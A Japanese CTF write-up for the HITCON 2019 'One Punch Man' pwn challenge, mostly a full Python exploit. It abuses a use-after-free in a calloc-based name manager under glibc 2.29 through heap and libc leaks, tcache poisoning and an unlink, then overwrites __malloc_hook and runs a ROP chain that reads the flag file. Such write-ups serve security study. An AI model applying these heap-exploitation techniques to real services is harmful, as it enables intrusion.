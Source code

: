 # [pwn 292pts] One Punch Man - HITCON CTF 2019 Quals
64ビットで全部有効です。
```
$ checksec -f one_punch
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes     0               4       one_punch
```
サイズ0x80以上0x400以下の長さの文字列でcallocでき、インデックスは0〜2までの3つが使えます。構造体は次のようになっており、bssに配列として確保されています。
```c
typedef struct {
  char *name;
  long size;
} Name;
```
名前はrename, delete, showが可能です。deleteではnameにNULLを入れていないのでdouble freeが可能ですが、libcのバージョンは2.29です。また、隠しオプションとしてpunchがあり、これを呼び出すにはサイズ0x220のチャンクのtcacheが埋まっている必要があります。
```
ptr = malloc(0x217);
read(0, ptr, 0x217);
```

さて、UAFがあるのでlibc leakは簡単ですが、確保できるサイズが0x80から0x400なのでfastbin attackができません。`global_max_fast`を書き換えようと思ったのですが上手く行きませんでした。punchではmallocで確保されるのでtcacheの先頭を書き換えればとりあえず好きなアドレスを書き換えられそうです。
ここで気づいたのですが、seccompが付いており、open, read, write, close, mmap, mprotect等のsyscallは使えますが、execve系は使えません。シェルコード実行でしょうか。
よく分からなかったので参考文献[1]を辿ってexploitを書きました。フラグのファイル名はflagらしいのでopen/read/writeしました。
```python
from ptrlib import *

def add(index, name):
    assert len(name) > 0x7f
    sock.sendlineafter("> ", "1")
    sock.sendlineafter(": ", str(index))
    sock.sendafter(": ", name)
    return

def rename(index, name):
    sock.sendlineafter("> ", "2")
    sock.sendlineafter(": ", str(index))
    sock.sendafter(": ", name)
    return

def show(index):
    sock.sendlineafter("> ", "3")
    sock.sendlineafter(": ", str(index))
    sock.recvuntil(": ")
    return sock.recvline()

def delete(index):
    sock.sendlineafter("> ", "4")
    sock.sendlineafter(": ", str(index))
    return

def punch(data):
    # need to free chunk of size:0x210 for 6 times
    sock.sendlineafter("> ", "50056")
    sock.send(data)
    return

libc = ELF("./libc-2.29.so")
sock = Socket("localhost", 9999)
libc_main_arena = 0x1e9c40
libc_global_max_fast = 0x1ec600
fd = 6

# leak heap
add(0, '0' * 0x217)
add(1, '1' * 0x217)
delete(0)
delete(1)
heap_base = u64(show(1)) - 0x260
logger.info("heap = " + hex(heap_base))

# evict tcache
for i in range(5):
    add(0, '0' * 0x217)
    delete(0)

# leak libc
add(0, '0' * 0x217)
add(1, '3' * 0x217)
delete(0)
libc_base = u64(show(0)) - libc_main_arena - 0x60
logger.info("libc = " + hex(libc_base))
delete(1)

punch("consume")
add(0, 'X' * 0x217)
delete(0)
rename(0, p64(0) * 2)
delete(0)

for i in range(3):
    add(i, 'Y' * 0x217)
for i in range(3):
    delete(i) # top

fake_chunk  = p64(0) + p64(0x211)
fake_chunk += p64(heap_base + 0x150 - 0x18)
fake_chunk += p64(heap_base + 0x150 - 0x10)
fake_chunk += b'\x00' * (0x210 - len(fake_chunk))
fake_chunk += p64(0x210) + p64(0x600)
add(0, 'A' * 0x400)
rename(0, fake_chunk)
add(2, 'A' * 0x400)
delete(1) # unlink
punch(p64(0x28))

# fill tcache
add(0, '7' * 0x217)
delete(0)

for i in range(6):
    add(0, '0' * 0x1f0)
    delete(0)

add(1, '1' * 0x217)
add(0, '0' * 0x1f0)
delete(0)
rename(0, p64(0)*2)

delete(0)
delete(1)

add(0, '0' * 0x220)
add(0, '0' * 0x1f0)
add(1, '1' * 0x200)
delete(0)
add(1, '5' * 0x200)

rename(0, p64(libc_base + libc_main_arena + 0x250) + p64(heap_base + 0x130))
delete(1)
rename(1, p64(0)*2 + p64(heap_base + 0x130))

payload  = b'A' * 0x10
payload += p64(libc_base + libc.symbol('__malloc_hook'))
payload += b'\x00' * (0x1f0 - len(payload))
add(0, 'C' * 0x1f0)
add(0, payload) # overwrite tcache
punch(p64(libc_base + 0x0008f41a) + b'flag\x00') # add rsp, 0x48; ret;

rop_pop_rdi = libc_base + 0x00026876
rop_pop_rsi = libc_base + 0x000272ce
rop_pop_rdx = libc_base + 0x001300e6
rop_pop_rcx_rbx = libc_base + 0x00104c6e
# open(___malloc_hook + 8, 0)
payload  = p64(rop_pop_rdi)
payload += p64(2)
payload += p64(rop_pop_rsi)
payload += p64(libc_base + libc.symbol('__malloc_hook') + 8)
payload += p64(rop_pop_rdx)
payload += p64(0)
payload += p64(libc_base + libc.symbol('syscall'))
# read(fd, heap_base + 0x2000, 0x100)
payload += p64(rop_pop_rdi)
payload += p64(fd)
payload += p64(rop_pop_rsi)
payload += p64(heap_base + 0x2000)
payload += p64(rop_pop_rdx)
payload += p64(0x100)
payload += p64(libc_base + libc.symbol('read'))
# puts(heap_base + 0x2000)
payload += p64(rop_pop_rdx)
payload += p64(0x100)
payload += p64(rop_pop_rsi)
payload += p64(heap_base + 0x2000)
payload += p64(rop_pop_rdi)
payload += p64(1)
payload += p64(libc_base + libc.symbol('write'))

# get the flag!
add(0, payload)

sock.interactive()
```

# 感想
むずい。

# 参考文献
[1] [https://r3kapig.com/writeup/20191018-hitcon-quals/#one-punch-man-[292pts]](https://r3kapig.com/writeup/20191018-hitcon-quals/#one-punch-man-[292pts])